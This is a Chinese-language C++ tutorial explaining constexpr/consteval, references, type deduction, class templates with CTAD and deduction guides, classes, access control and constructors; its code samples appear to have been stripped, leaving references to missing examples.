当 constexpr 函数在编译时被计算时，编译器必须在这个 constexpr 函数被调用前知道它的完整定义，这样编译器才可以在编译时就用函数的结果替换掉这个函数所在的调用语句。
在这种情况下，仅仅是前向声明是不够的，这意味着被多个文件使用的 constexpr 函数的定义需要被包含到每一个翻译单元中来——这通常会违反单一定义原则（one-definition rule，多个翻译单元中不能出现完全一致的函数定义，除非这个函数是内联函数）。为了避免此类问题，constexpr 函数是隐式内联的，这使得它们不受单一定义规则的约束。
因此，constexpr 函数通常在头文件中定义，因此可以将它们 #included 到任何需要完整定义的 .cpp 文件中。
Abstract
- 被单个源文件 (.cpp) 中使用的 constexpr/consteval 函数应在使用它们的上方源文件中定义。
- 被多个源文件中使用的 constexpr/consteval 函数应在头文件中定义，以便它们可以包含在每个源文件中。
编译时求值的 constexpr 函数的前向声明
根据 CWG2166 ，对在编译时求值的 constexpr 函数的前向声明的要求实际上是“constexpr 函数必须在最终导致调用的最外层计算之前定义”。因此，下面的代码是有效的
这么做的目的是允许 constexpr 函数进行相互递归。
consteval¶
当 constexpr 函数不在常量表达式中调用时，我们没办法保证编译器在编译时求值这个函数。解决这个问题的最简单粗暴的方法是用这个 constexpr 函数的返回值去初始化一个变量，但这样就会导致一个不必要的变量，也会使得代码变得冗长且丑陋。
为了解决这个问题，C++20 引入了 consteval 关键字，它表示这个函数必须在编译时求值，否则将导致编译错误。
上面的例子中，对 greater(x, 6) 的调用无法在编译时求值，因此会导致编译错误。
consteval 函数的缺点是此类函数无法在运行时求值，这使得它不如 constexpr 函数灵活——后者可以在编译时或运行时执行。因此，有一种使得 constexpr 函数在编译时强制执行的方法还是很有用的，这样我们就可以在可能时让函数在编译时求值，不能时就在运行时求值。
C++20 为 constexpr 函数提供了实现这一目标的方法——使用一个简洁的辅助函数
这里我们使用一个 constexpr 函数的返回值作为 consteval 函数的参数，这样我们就可以在编译时强制执行这个 constexpr 函数。
Tip
这里我们让 consteval 函数按值返回，虽然这在运行时执行可能效率低下（如果这个值是复制成本高昂的类型，例如 std::string），但在编译中执行时，这不是什么问题。
在 constexpr 或 consteval 函数中，我们可以使用非 constexpr 的局部变量，并且可以更改这些变量的值。因为编译器本质上会“执行”这个函数并返回函数的结果。
不使用 constexpr 函数的原因
- 如果某个函数无法作为常量表达式的一部分进行计算，则不应将其标记为
constexpr constexpr是函数接口的一部分。一旦函数被设为 constexpr，它就可以被其他 constexpr 函数调用或在需要常量表达式的上下文中使用。稍后删除constexpr将破坏此类代码- constexpr 使函数更难调试，因为我们无法在运行时检查它们
引用¶
在 C++ 中，引用（reference）相当于现有对象的一个别名（这里的“对象”不特指 OOP 中的 object，而是泛指变量、常量、函数等）。定义了一个引用之后（明确了它所引用的对象之后），对引用的任何操作都相当于对原对象的操作。
左值引用¶
我们通常所说的引用一般指的都是左值引用（lvalue reference），它是通过 & 符号来定义的。
- 通常所说的左值引用是对一个非 const 变量的引用，即非 const 左值引用（lvalue reference to non-const or non-const lvalue reference）
- 对一个 const 变量的引用称为const 左值引用（lvalue reference to const or const lvalue reference）
引用在初始化时必须明确它所绑定的对象，这意味着引用必须在定义时初始化，且一旦初始化后，它将一直绑定到同一个对象。
- 绑定引用的过程称为引用绑定（reference binding）。
- 非常量左值引用只能绑定到可修改的左值上
如果我们尝试把引用绑定到另一种类型的变量上，编译器会尝试先对这个变量进行隐式类型转换，然后把引用绑定到转换的结果上。但由于隐式类型转换的结果是一个右值，而非 const 左值引用不能绑定到右值上，这就会导致编译错误。
引用也可以使用另一个引用来初始化，这样会创建一个新的引用，它绑定到原引用所绑定的对象上。
Info
可能会有人会把int&&和int**（指向指针的指针）进行类比，认为int&&是对引用的引用，但实际上这表示对右值的引用（C++11）。
引用的生命周期¶
引用的生命周期和普通的变量类似：引用在定义时创建，在超出作用域时被销毁。
引用和被引用者具有相互独立的生命周期，这意味着
- 引用可以在被引用者之前被销毁
- 被引用者也可以在引用之前被销毁
当引用先被销毁时，被引用对象并不会受到任何印象，但当被引用对象先被销毁时，引用就会变成悬空引用（dangling reference），对悬空引用的访问会导致未定义行为。
引用不是对象
在 C++ 中，引用并不是一个对象。如果可能的话，编译器会试图使用被引用对象来替代所有出现的引用，以此来优化程序，此时引用就不需要占据任何内存空间，甚至不需要实际存在；但有时候这种替代无法做到的，这时候引用就会占据实际的内存空间。
因为引用不是一个对象，所以我们不能创建引用的引用（左值引用必须指向一个可识别的对象）。
const 左值引用¶
刚刚我们提到过，一个非 const 的左值引用不能绑定到 const 变量上，因为如果允许这么做，我们将可以通过引用来修改这个变量，这违背了 const 变量的定义。如果我们希望引用一个 const 变量，我们可以使用 const 左值引用。
我们也可以对一个非 const 变量使用一个 const 引用，此时通过引用来访问的对象将被视为常量，这表示我们不能通过这个引用来修改这个对象。
使用右值初始化 const 左值引用
const 左值引用可以绑定到右值上
此时将会创建一个临时对象，这个临时对象被右值 5 初始化，然后 const 引用绑定到这个临时对象上。
之前我们提到过，隐式类型转换的结果是一个右值，这意味着我们可以使用一个类型的 const 引用绑定到另一种类型的对象上去，但此时引用实际上绑定的是临时变量而非原对象，对原对象的任何修改都不会影响到引用。
为了上述情况中避免临时变量被销毁而导致的悬空引用，C++ 有一个特殊的规则：当 const 左值引用被绑定到一个临时变量上时，临时变量的生命周期将会被延长，直到这个引用的生命周期结束，这个临时变量才会被销毁。
constexpr 左值引用
constexpr 允许被应用到引用上时，这个引用将会被允许出现在常量表达式中，但此时这个引用只能绑定到具有静态存储期的对象上（全局变量或静态局部变量）。
当 constexpr 引用绑定到一个 const 变量上时，我们需要同时使用 constexpr（引用） 和 const（所引用的对象）
介于以上的限制，constexpr 引用通常很少出现。
按引用传递参数¶
在函数调用中按值传递参数时，参数会被复制出一个副本以供函数使用，这样会导致一定的开销，尤其是当参数是一个较大的对象时。为了避免这种开销，我们可以使用引用来传递参数。
按引用传递参数时，我们可以在函数内部通过引用来对原对象进行修改，其作用和按地址传递参数类似，但是引用的语法更加简洁。
-
如果我们不希望函数修改传入的参数，我们可以使用 const 引用来传递参数，这样函数就无法修改传入的参数了。
把不同类型的参数传递给 const 引用参数
之前我们提到过，const 引用可以绑定到不同类型的对象上，但此时引用实际上绑定的是临时变量而非原对象，对原对象的任何修改都不会影响到引用。
当我们把不同类型的参数传递给 const 引用参数时，也会发生同样的事情。
在我的一次本地运行中，这个程序的输出是
函数中 y 的地址和 main 函数中的 x 的地址不同，这表明函数内引用绑定的是一个临时变量而非原对象。
该用 std::string_view 还是 const std::string&？
在 C++ 中，被作为参数传递的字符串通常是 std::string、std::string_view 或 C 风格字符串（const char*）。
| Argument Type | std::string_view parameter |
const std::string& parameter |
|---|---|---|
std::string |
Inexpensive conversion | Inexpensive reference binding |
std::string_view |
Inexpensive copy | Expensive explicit conversion to std::string |
| C-style string / literal | Inexpensive conversion | Expensive conversion |
-
函数中的形参是
std::string_view，- 如果传入的是
std::string或 C 风格字符串，那么这个字符串会被转换为std::string_view，但这个转换并不会带来太大的开销 - 如果传入的是
std::string_view，那么这个字符串会被直接按值传递给函数，发生一次开销不大的复制
- 如果传入的是
-
函数中的形参是
const std::string&，- 如果传入的是
std::string，引用会直接绑定到传递过来的std::string上 - 如果传入的是
std::string_view或 C 风格字符串，那么这个字符串会先被隐式转换为std::string，然后引用才会绑定到这个std::string上
- 如果传入的是
从上面的分析可以看出，std::string_view 作为参数通常要比 const std::string& 更好，因为它可以接受更多类型的参数，而且转换开销更小。
但这并不是绝对的，在某些情况下，const std::string& 可能更适合，例如
- 使用的 C++ 版本低于 C++14，此时就无法使用
std::string_view - 如果函数需要使用到字符串一些其他的属性或功能，例如需要字符串以 null 结尾（
std::string_view不保证它以 null 结尾）、需要调用std::string的成员函数等
按引用返回¶
当函数按值返回时，会制作一个函数返回值的副本，然后传递给调用者，这样会导致一定的开销，尤其是当返回值是一个较大的对象时。
为了避免这种开销，我们可以使用引用来返回函数的结果。按引用返回（return by reference）的函数返回的是一个绑定到需要返回的对象的引用。
通过引用返回的对象必须在函数返回后仍存在
为了避免出现悬空引用，我们必须确保被引用的对象的生命周期要比调用的这个函数更长。例如上面的例子中我们让 s_programName 成为了一个具有 static 生命周期的变量。
Example
在实际的程序中，我们应当避免对非 const 的静态变量的按引用返回，例如
程序的输出结果为
发生这种情况是因为id1和id2引用了相同的对象（静态变量s_x），因此当修改s_x被修改时，所有引用都会访问修改后的值。
对于上面的这个例子，我们可以把id1和id2改为普通的常量变量 const int 而非 const int&，这样它们就可以保存返回值的副本，而非保存对s_x的引用。
关于按引用返回有一个很有趣的事情是，我们可以借助函数调用返回的引用来修改一个变量：
上述程序中 b 的值更大，因此 max() 函数将会返回一个绑定到 b 的引用，我们可以直接利用这个引用来修改 b 的值为 7。因此这段程序的输出结果为
关于引用的类型推导¶
我们知道，使用 auto 进行类型推导时，const 标识符会被删除，实际上除了删除 const 之外，auto 还会删除引用标识符。
Example
在这个例子中，尽管函数getRef()返回一个std::string&，但ref的类型被推导为std::string。
就像 const 一样，如果我们希望类型被推导为引用，我们可以在定义处重新把它变为参考
Top-level const and low-level const
- 顶级 const（top-level const）：const 修饰的是对象本身，或者指针或引用本身，而非指针或引用所指向的对象。例如
- 低级 const（low-level const）：const 修饰的是指针所指向的对象或引用所绑定的对象，而非指针或引用本身。例如
指针也可以同时拥有两种 const，例如
- 当我们说类型推导会删去 const 限定符时，我们指的是顶层 const，而底层 const则会被保留。
Key-point
删除引用时可能会把一个低级 const 变为顶级 const：
const std::string&是低级 const，但删除引用后会得到const std::string，它现在变成顶级 const了，可以在类型推导中被删去。
因此，如果初始化器是一个对 const 变量的引用，那么在类型推导时会首先删除引用，然后再删除 const 限定符。
如果我们希望得到的是引用和/或 const 限定符，可以手动添加它们：
上例的前两种情况前面已经介绍过了，就不多解释了。值得解释的是 ref3：
- 通常，引用会首先被删除，此时 const 就是顶层的了，然后 const 也会被删除。但是由于我们这时候重新把引用应用到了
auto上，相当于重新添加了引用，此时 const 仍然是底层的，不会被删去，因此ref3的类型是const std::string&。
ref4 的情况和 ref3 类似，只是我们也重新应用了 const 限定符。由于类型已经被推导为对 const 的引用，重复的 const 实际上是多余的，但这并不会导致编译错误。事实上这也有助于代码编写者/阅读者明确地知道这个引用是一个对 const 的引用。
推导为 constexpr 引用
Tip
当我们希望定义一个绑定到 const 变量的 constexpr 引用时，我们需要同时使用 constexpr（修饰引用）和 const（修饰被绑定对象）限定符。例如constexpr const int&。
constexpr 不是类型系统的一部分，因此永远不会被推导出来（但它是隐式的 const），我们需要将其显式地把它加到类型推导中。
指针的类型推导
与引用不同，指针的类型推导不会去掉指针标识符，因此 auto 推导出来的类型会是指针（还记得吗，引用不是一个对象，而指针是），我们还可以使用 auto* 来明确指出推到的结果一定是一个指针。
Abstract
顶层 const 和底层 const
- 顶层 const 修饰的是对象本身，如
const int x和int* const ptr - 低层 const 修饰的是指针所指向的对象，如
const int& ref和const int* ptr
推导的过程
- 类型推导首先删除所有引用（除非推导的类型被定义为引用
auto&） - 然后类型推导会删除所有顶层 const 限定符（除非推导的类型被定义为 const 或 constexpr）
- constexpr 不是类型系统的一部分，不会被推导出来，需要将其显式添加到类型推导中
- 类型推导不会删除指针标识符
- 在进行类型推导时，始终显式地使用引用标识符、指针标识符、const 限定符和 constexpr 限定符，即使这些限定符是多余的。这有助于我们明晰自己想得到的类型，防止出现错误。
关于指针的类型推导
- 使用
auto时，仅当初始化器是指针时，类型推导的结果才是指针。使用auto*时，即使初始化器不是指针，推论类型也始终是指针。 - auto const 和 const auto 都会使推导得到的的指针成为 const 指针。
- auto const 的结果是 const 指针，而 const auto 的结果是指向 const 对象的指针。
- 对指针类型进行推导时，尽可能考虑使用
auto*而非auto，这样允许我们显式地重新应用顶级和低层 const，并且能保证推导的结果是一个指针。
右值引用¶
C++11 添加了一种新型的参考——右值参考（rvalue reference），它被设计为仅可被右值初始化，我们使用 && 符号来定义右值引用。
右值引用有两个有用的属性：
- 右值引用将使得被用于初始化的右值的生命周期延长至于这个右值引用的生命周期相同，而不是像普通的右值一样在它出现的的完整表达式结束后就被销毁。
- 非 const 的右值引用甚至允许我们修改这个右值。
Example
上述程序将输出
虽然先用字面量初始化一个右值引用，然后修改这个值看起来很奇怪，但当我们初始化一个右值引用时，实际上会用这个字面量初始化一个临时变量，然后这个右值引用绑定到这个临时变量上，因此我们实际上是在修改这个临时变量。
右值引用常用作函数的参数，尤其是当我们在希望重载函数能区分左值和右值，并作出不同的行为时
这段程序的输出为
右值作为函数参数常常用于移动语义
Tip
上面的代码片段实际上调用的是 fun(const int&) 而非 fun(int&&)，因为 ref 虽然具有类型 int&&，但在表达式中使用时它是一个左值，因此实际上会调用 fun(const int&)。
类模板¶
类似于函数模板是用于实例化函数的一模板定义，类模板（class template）是用于实例化类类型的一种模板定义。
类类型（class type）
类类型包括结构体、类和联合体（struct, class, and union type），为简单起见，下面我们仅在结构体上演示类模板的用法，但它们同样适用于类和联合体。
对于一个简单的结构体 Pair
我们可以用类模板把它重写为
当我们想要实例化一个结构体时，只需要像函数模板一样在结构体名称后面加上尖括号，然后在尖括号中指定类型即可，例如 Pair<int> 和 Pair<double>。
函数中的类模板¶
我们还可以对这个类模板创建一个函数模板
在调用函数时，可以显示地传入 Pair 的模板参数，也可以让编译器自动推导
如果我们试图调用 max<double>(p1) 则会出现编译错误
Note
类模板可以使用模板类型和普通的类型（非模板类型）混合使用
类模板也可以使用多种模板类型
如果我们希望编写一个用于各种类型的 print() 函数（只要能通过编译就可以），可以写为
Info
由于处理数据对的情况很常见，因此 C++ 标准库包含一个名为 std::pair 的类模板（在 <utility> 头文件中），它是一个类似于我们定义的 Pair 的类模板。
我们刚刚实现了自己的 Pair 类，但在实际的代码中使用 std::pair 是个更好的选择
和函数模板一样，类模板通常也在头文件中定义，通过 #include 指令包含到需要使用的文件中。
类模板参数推导（CTAD）¶
从 C++17 开始，从类模板实例化对象时，编译器可以从初始化器的类型中推导出模板类型，这称之为类模板参数推导（Class Template Argument Deduction，CTAD）。
仅在没有模板参数列表时，编译器才会执行 CTAD，因此以下两种情况都是错误的
由于 CTAD 是一种类型推导的形式，因此我们可以使用字面量后缀来更改推导得到的类型：
模板参数推导指南（C++17）¶
在多数情况下，CTAD 可以直接使用；但在某些情况下，编译器可能需要一些额外的帮助才能知道如何正确地推断模板参数。
例如在下面的程序在 C++17 中无法编译
在 C++17 中编译上面这段代码，可能会遇到“class template argument deduction failed”或“cannot deduce template arguments”或“No viable constructor or deduction guide”的报错信息。这是因为在 C++17 中，编译器不知道如何推导聚合类模板的模板参数，因此我们需要提供一个模板参数推导指南（deduction guide）来帮助编译器推导模板参数。
这是添加推导指南之后的同一段程序：
上面这段的推导指南的作用是，告诉编译器当它看到一个名为 Pair 的对象带有类型分别为 T 和 U 的参数时，应该把最终的类型推导为 Pair<T, U>。
Tip
- C++20 中添加了编译器自动生成推导指南的功能，因此我们只需要在 C++17 中手动编写推导指南
std::pair（和其他标准库中的模板类型）附带预定义的推导指南，无需我们自己提供推导指南
模板参数的默认值¶
就像函数参数可以有默认参数一样，模板参数也可以有默认值。当模板参数未明确指定且无法推断时，将使用这些参数。
这里我们对 p3 的定义并未明确指定类型模板参数的类型，也没有能够从中推导这些类型的初始化器。
CTAD 不适用于函数参数
CTAD 表示的是 class template argument deduction，而非 class template parameter deduction，因此它不能用于函数的形参（parameter）。例如下面的代码是错误的：
这种情况下，我们需要显式地使用模板：
别名模板¶
我们可以像为普通的类型创建别名一样，为类模板创建一个类型别名，这个类型别名的作用范围是它被定义的那个作用域。
有时候，我们可能需要一个模板类的类型别名，但是并非所有的模板参数都被定义到这个别名的一部分（这部分参数被别名的使用者提供）。为此我们可以定义一个别名模板（alias template），它可以用于实例化一个类型别名。
这里，我们将一个名为Coord的别名模板定义为Pair<T>的别名，其中类型模板参数T将由坐标别名的使用者提供。Coord是别名模板，Coord<T>是Pair<T>的实例化类型别名，定义后，Coord相当于Pair，Coord<int>相当于Pair<int>。
关于别名模板我们有几点需要注意
- 与普通类型的别名（可以在块内定义）不同，别名模板必须在全局定义域中定义
- 在 C++20 之前，当我们使用别名模板实例化对象时，必须显式指定模板参数。从 C++20 开始，我们可以使用别名模板推导（alias template deduction），在别名类型可与 CTAD 配合使用的情况下，它将从初始化器推导模板参数的类型。
-
由于 CTAD 不适用于函数参数（parameter），因此当我们使用别名模板作为函数参数时，必须显式定义别名模板使用的模板实参。
换句话说，我们只能这么写
而不能这么写
实际上和我们使用
Pair和Pair<T>时是一样的。
具有成员函数的类模板¶
定义为类模板参数声明的一部分的类型模板参数既可以用作类的成员变量的类型，也可以用作类的成员函数的返回类型或参数类型。
例如对于我们已经定义过的 Pair 类模板，我们可以把它从结构体转换为类
-
由于类不是一个聚合类型，因此我们不能像结构体那样使用聚合初始化，因此我们必须使用构造函数来初始化类的成员变量。
-
由于 T 类型在复制时的开销可能较大，因此我们通过 const 引用来传递参数，而非直接按值传递，以避免不必要的复制。
-
当我们在类模板定义中对成员函数进行定义时，我们不需要为成员函数提供模板参数声明，它们会默认使用类模板的模板参数声明。
-
-
对于非聚合的类，我们不需要为 CTAD 提供推导指南。与传入的参数匹配的构造函数为编译器提供了从初始化器推导模板参数所需的信息。
-
对于在类定义外部定义的成员函数，我们需要重新提供模板参数声明。
- 除此之外，我们在类外部定义成员变量时，我们需要使用类模板的完整名称（
Pair<T>::isEqual，而非Pair<T>::isEqual）来限定成员函数名称。
- 除此之外，我们在类外部定义成员变量时，我们需要使用类模板的完整名称（
注入类名¶
我们可以注意到我们在类模板中定义的构造函数的名称是 Pair，而不是 Pair<T>。在类的范围内，没有被限定的类名被称为注入类名（injected class name）。在类模板中，注入类名相当于完整模板名的一个速记。
在上面的例子中，Pair是Pair<T>的注入类名，因此我们在Pair<T>的作用域内使用的任何Pair都被视为Pair<T>。
这意味着我们还可以把 isEqual() 成员函数定义为
Key-point
我们前面提到过 CTAD 不适用于函数参数（因为是 argument deduction，而不是 parameter deduction），但是我们使用注入类名作为函数参数是完全可以的，因为它是完全模板名称的速记，并没有使用 CTAD。
在何处定义类模板之外的成员函数？
对于类模板的成员函数，编译器需要同时查看类的定义（以确保将成员函数模板被声明为类的一部分）和模板成员函数的定义（以了解如何实例化模板）。因此我们同城希望在相同（或至少相近）的位置定义类模板及其模板成员函数。
- 当我们在类定义中对成员函数模板进行定义时，由于模板成员函数的定义是类定义的一部分，任何可以看到类定义的地方，都可以看到模板成员函数定义。
- 当我们在类定义外部对成员函数模板进行定义时，通常我们需要在类定义的下方紧接着就定义模板成员函数，这样可以确保编译器在看到类定义时就能看到模板成员函数的定义。
从上面的讨论中我们可以知道，当我们在 .h 文件中定义类模板时，成员函数模板也应在该 .h 文件中定义。
类¶
定义一个类的语法与定义一个结构体相当类似
类不变式（class invariant）¶
C++ Core Guidelines 将不变式定义为“程序某一时刻或某一段时间里必须得到满足的条件”。
对于类类型（包括结构体、类和联合体），类不变式是指在类的生命周期中，类的成员变量必须满足的条件，违反类不变量的对象被认为处于无效状态。
Key-point
使用违反类不变式的对象可能导致意外或未定义的行为。
例如考虑下面的结构体：
我们知道在数学中，分数的分母不能为 0，因此我们要确保 Fraction 的 denominator 成员变量永远不会设置为 0，否则该 Fraction 对象处于无效状态，使用这个对象可能会导致未定义的行为。
例如一个简单的函数
调用 printFractionValue({ 5, 0 }) 时会出现除零错误，虽然我们可以通过在函数内添加一个 assert 语句检查分母是否为 0 来避免除零错误，但这并不能解决问题的根本。
依赖于用户来维护类不变量是不可靠的，尤其是在比分数这个例子复杂得多的情况下。理想情况下，我们希望对我们的类类型进行保护，使得对象不能被置于无效状态，或者如果处于无效状态，可以立即发出信号（而不是在将来某个时刻出现未定义行为时才知道）。
类与结构体
从技术角度来看，结构和类几乎相同——能用结构体实现的内容都可以通过类实现，反之亦然。class 和 struct 在语法上几乎没有区别，仅有一些微小的差别：
- class 默认访问说明符为 private, 这其实隐含了它应该将数据设为私用, 即拥有不变式.
- struct 默认访问说明符为 public, 这其实隐含了它应该将数据设为公用, 即没有不变式.
如果某个类类型具有不变式，则使用 class；如果数据成员之间相互独立，则使用 struct。
成员函数¶
除了成员变量之外，类类型还可以拥有自己的函数，称之为成员函数（member function）。
不是成员函数的函数称为非成员函数（non-member function），有时也称为自由函数（free function）。
Info
在其他面向对象语言（例如 Java 和 C#）中，成员函数也称为方法（method）。我们只需要知道这两个术语在表示一个东西即可。
为简单起见，我们用结构体来介绍成员函数：
在这个例子中我们可以看到，成员函数 print() 是在结构体 Date 内部定义的，它可以访问结构体的成员变量 year、month 和 day。在使用成员函数时，我们不需要把 today 作为参数传递给成员函数。当某个对象的成员函数被调用时，它本身会被隐式传递给成员函数，因此我们不需要使用成员选择运算符. ，这个对象被称为隐式对象（the implicit object）。
成员变量和函数可以按任意顺序定义
非成员函数在使用之前必须进行声明，否则在编译时会报错。但类类型的成员函数并没有这个限制，我们可以在声明成员变量和成员函数之前访问它们。
但是数据成员将按照声明的顺序进行初始化，如果一个成员在初始化时需要使用到一个稍后才声明的另一个成员，那么初始化将会导致未定义的行为。
因此，最好避免在成员变量初始化时使用其他成员。
成员函数也可以进行重载
输出结果为
const 对象和 const 成员函数¶
我们可以向普通的变量一样，用 const 关键字来声明一个类类型对象。一旦初始化了 const 类类型对象，就不允许对对象的成员数据进行修改，这既包括直接修改成员变量（如果是 public 的），也包括通过成员函数修改成员变量。
实际上我们还会发现，如果我们尝试在 const 对象上调用非 const 成员函数，编译器会报错，即使这个非 const 函数并不会修改成员变量。
我们可以通过把 const 关键字附加到函数原型后来使得这个函数变为 const 成员函数
Tip
- 尝试更改成员变量或调用非 const 成员函数的 const 成员函数将导致编译错误
- 构造函数不能设为 const，因为它们需要初始化对象的成员，这需要修改它们
- const 成员函数可以也被非 const 对象调用，因此我们最好把不会改变对象状态的成员函数设置为 const
虽然很少会这么做，但是成员函数可以被重载为 const 和非 const 两个版本，因为 const 限定符也被认为是函数签名的一部分。
输出结果为
访问说明符¶
C++ 具有三种不同的访问级别：public、private 和 protected，我们暂时先介绍前两者。
每当对对象的成员进行访问时，编译器都会检查这个成员的访问级别，如果访问级别不允许访问者访问该成员，编译器将报错。
- public：公共成员可以被任何人访问，包括同一个类的其他成员、其他类的成员和非成员函数。
- private：私有成员只能被类自己的成员访问，无法被其他类的成员或非成员函数访问。
前面提到过，类的默认访问说明符是 private，而结构体的默认访问说明符是 public。
- 默认情况下，结构体的所有成员都是公共成员
-
默认情况下，类的所有成员都是私有成员，这表示我们不能直接对类进行聚合初始化
给 private 变量命名
在 C++ 中，我们经常能见到给 private 的变量加上前缀 m_，这是一种常见的命名约定，它有助于区分成员变量和局部变量。例如一个成员函数
这样我们就能很容易地知道 m_name 是一个成员变量，而 name 是一个局部变量。
- 如果有需要，class 的 public 成员也可以使用这种命名方式，但是结构体的 public 成员通常不会使用这个前缀。
我们可以使用访问说明符来明确成员的访问级别，包括 public:、private: 和 protected:。
| Access level | Access specifier | Member access | Derived class access | Public access |
|---|---|---|---|---|
| Public | public: | yes | yes | yes |
| Protected | protected: | yes | yes | no |
| Private | private: | yes | no | no |
有一个很容易被误解的点是：C++ 的访问级别是以每个类（per-class）为基准的，而非每个对象（per-object）。这意味着一个对象的成员函数可以访问同类的其他对象的私有成员。
这段程序运行后得到输出结果为
在这里 m_name 是 private 的变量，因此它只能被同为 Person 这个类的其他对象访问，因此我们在成员函数 shakeHands() 中可以直接使用另一个对象的 private 变量 p.m_name。
访问函数¶
访问函数（access function）指的是用于检索或更改一个类的私有成员的函数。访问函数有两种：getter 和 setter。访问函数的存在也为我们提供了一定程度的数据封装。
- getter：用于检索私有成员的值，有时也称为访问器（accessor）
- setter：用于更改私有成员的值，有时也称为修改器（mutator）
getter 通常被设置为 const 成员函数，因为它们不会修改对象的状态；setter 则不是 const 成员函数，因为它们会修改对象的状态。
我们通常会给访问函数加上前缀 get 和 set，这是一种常见的命名约定，它有助于我们识别 getter 和 setter。
类成员的声明顺序¶
由于类的中的成员变量和成员函数不需要在使用之前声明，因此我们不必像在类之外书写代码那样先声明再使用。那么我们该如何安排这些成员的顺序呢？目前主要有两种主张：
-
首先列出 private 成员，然后再列出 public 的成员函数。
这是一种较为传统的风格，任何查看我们的类代码的人都会在使用数据成员之间就了解它们的定义，这符合阅读的习惯，并让阅读者更容易了解实现的细节。
-
首先列出 public 成员，然后再列出 private 的成员函数。
这种风格将类的接口放在了首位，这样用户可以更容易地找到他们可能需要的函数和使用方法，而不必关注具体的实现细节（很多时候用户并不关心这些细节）。
Google C++ style guide 的建议
Google C++ style guide 推荐按照以下的顺序安排类的成员：
- Types and type aliases (typedef, using, enum, nested structs and classes, and friend types)
- Static constants
- Factory functions
- Constructors and assignment operators
- Destructor
- All other functions (static and non-static member functions, and friend functions)
- Data members (static and non-static)
构造函数¶
构造函数引入¶
当类类型是一个聚合体时，我们可以使用聚合初始化来初始化对象，例如
聚合初始化会按照成员定义的顺序对成员进行初始化，上面这个例子中，foo.x 被初始化为 6，foo.y 被初始化为 7。但是一旦我们把任意一个成员变量变为 private 的，这个类类型就不再是聚合体了（因为聚合体不能拥有私有成员），这时我们就不能再使用聚合初始化了。
不允许带有私有成员的类类型使用聚合初始化的原因是
- 聚合初始化需要了解类的具体实现（必须知道成员是什么，以及它们是按照什么顺序声明的），这和我们把变量设为私有的是相悖的
- 如果我们的类具有某种不变性，那么在初始化时我们就需要依靠用户来确保这种不变性，这是不可靠的
既然我们不能使用聚合初始化来对 class 进行初始化，我们就要使用别的方法——构造函数（constructor）。
构造函数是一种特殊的成员函数，它会在创建一个非聚合类的对象后被自动调用。编译器会查看是否可以找到和调用者提供的初始化值（如果有的话）相匹配的构造函数
- 如果找到了可访问的匹配的构造函数，编译器将为这个对象分配内存，然后调用这个构造函数
- 如果没有找到匹配的构造函数，将会出现编译错误
构造函数不仅决定如何创建一个对象，通常还执行以下两个工作
- 对成员变量进行初始化（通过初始化列表或构造函数体）
- 执行一些其他的设置函数（setup functions），可能包括检查初始化值、打开文件等
构造函数的命名
构造函数的命名与普通的成员函数不同，它有一些特殊的规则：
- 构造函数的名称必须与类名相同。对于模板类，构造函数的名称将不包括模板参数。
- 构造函数没有任何返回类型（也没有 void），因为它们不返回任何值。
由于构造函数需要对正在构造的对象进行初始化，因此它不能是 const 的。
通常，非 const 成员函数不能被一个 const 对象调用，但 C++ 标准明确指出 const 标识符不适用于正在构建的对象，并且 const 在构造函数结束之后才生效。
由于这个构造函数并没有对成员变量进行初始化，因此这段程序的输出为
构造函数的参数会进行隐式转换
对于上面的构造函数，我们可以使用任何可以隐式转换为 int 的类型来调用它，例如 Foo foo{ 'a', true }; 或 Foo foo{ 3.14, 2.71 }; 等。
成员初始化列表¶
为了让构造函数初始化成员，我们可以使用成员初始化列表（member initializer list, or member initialization list）。
对于我们上面的构造函数，我们只需要略作修改就可以让它初始化 m_x 和 m_y。
成员初始化列表应紧接在在构造函数的参数列表之后，它以一个冒号 : 开始，后面列出要初始化的每个成员及其初始化值，每个成员初始化之间用逗号 , 分隔。
修改后的程序输出结果为
成员初始化列表的格式
C++ 并不在意我们把成员初始化列表的冒号、逗号和空格是怎么写的，因此下面几种格式也都是有效的（并且都可能遇见）
C++ 标准要求成员初始化列表的成员初始化顺序必须与它们在类中声明的顺序一致，而我们在直觉上可能会认为成员变量将按照初始化列表中的顺序进行初始化，这就可能导致一些错误。
假如我们的类定义如下
尽管 m_y 在初始化列表中出现在 m_x 之前，但是 m_x 会比 m_y 先初始化，但由于 m_x 的初始化依赖于 m_y 的值，这就会产生未定义行为。例如在我的机器上，这段程序的输出结果是Foo(32731, 7)。
成员初始化列表的顺序
为了避免这种问题，我们应该按照成员变量在类中的声明顺序来编写成员初始化列表。
成员变量可以被以下几种方法初始化
- 如果成员初始化列表中有对成员变量的初始化，那么这个成员变量将被初始化为成员初始化列表中的值
- 如果成员初始化列表中没有对成员变量的初始化，那么这个成员变量将被初始化为它的默认值（如果有的话）
- 否则，这个成员将被默认初始化（通常是未定义的值）
默认构造函数¶
我们把不接受任何参数的构造函数称为默认构造函数（default constructor）。
如果一个类类型具有默认构造函数，则值初始化和默认初始化都将调用默认构造函数
默认构造函数
这里的两种初始化都将调用默认构造函数，它们本质上是等价的。但我们知道对于聚合体而言，值初始化更加安全；而有时候我们难以区分一个类类型是聚合体还是非聚合体，因此最好使用值初始化来初始化对象。
与其他函数一样，构造函数的最右边参数可以具有默认参数。如果构造函数中的所有参数都有默认参数，那么这个构造函数就被认为是默认构造函数（因为它可以在没有参数的情况下调用。
因为构造函数也是函数，因此它们也可以重载。也就是说，对于一个类类型，我们可以拥有多种构造函数，以便于以不同的方式构造对象。
Example
当我们试图实例化 foo2 时，编译器将寻找默认构造函数，但是由于有两个默认构造函数，编译器无法确定调用哪一个，因此会报错。
隐式默认构造函数
如果一个非聚合的类类型没有定义任何构造函数，那么编译器将为它生成一个默认构造函数，称为隐式默认构造函数。隐式默认构造函数等同于没有参数，没有成员初始化器列表，也没有函数体的构造函数。
隐式默认构造函数
编译会为我们生成如下的构造函数：
这段程序中，Foo foo{} 将调用隐式默认构造函数，m_x 和 m_y 分别将被初始化为 1 和 2。
我们也可以通过 = default 来显式声明一个默认构造函数
委托构造函数¶
委托构造函数（delegating constructors）是一种特殊的构造函数，它允许一个构造函数调用另一个构造函数来初始化对象，这个过程有时称为构造函数链。
- 当
e1{ "James" }被初始化时，与之匹配的构造函数Employee(std::string_view name)被调用，这个构造函数在成员初始化列表中把初始化的人物委托给另一个构造函数Employee(std::string_view name, int id)来初始化对象。 - 被委托的构造函数
Employee(std::string_view name, int id)把m_name初始化为name，把m_id初始化为id，然后执行它的函数体。 - 被委托的构造函数体被执行后，控制权返回给委托的构造函数，它的函数体也被执行。
